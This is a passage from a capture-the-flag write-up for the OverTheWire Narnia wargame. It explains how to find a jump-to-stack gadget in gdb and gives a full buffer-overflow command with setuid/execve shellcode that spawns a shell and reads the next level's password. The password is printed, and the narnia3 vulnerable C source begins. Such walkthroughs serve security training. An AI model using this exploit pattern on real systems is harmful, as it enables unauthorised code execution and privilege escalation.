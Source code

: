     (gdb) find /b 0xf7da0000, 0xf7f27000, 0xff, 0xe4 
    0xf7ea395d <__GI_init_module+45>
    1 pattern found.

The address "0xf7ea395d" is where we need to return and after that, one should 
append their shellcode. Now, outside gdb one can execute, the following command 
in order to spawn a shell and grab the password for the next level.

    narnia2@gibson:~$ /narnia/narnia2 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x5d\x39\xea\xf7\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80")
    $ whoami
    narnia3
    $ cat /etc/narnia_pass/narnia3
    2xszzNl6uG

**Note**: The shellcode had to be changed in order to get the uid of the user 
executing the binary and then set it for the owner of the shell binary that will 
be spawned [REF_2].

Password: **2xszzNl6uG**


## narnia3

After connecting to the specific level with `ssh` by typing
    *ssh narnia3@narnia.labs.overthewire.org -p 2226* 
with password 
    *2xszzNl6uG*

one can find the source code of `narnia4` binary which is shown below.

    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <unistd.h>
    #include <stdlib.h>
    #include <string.h>

    int main(int argc, char **argv){
        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
            printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
            exit(-1);
        }


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html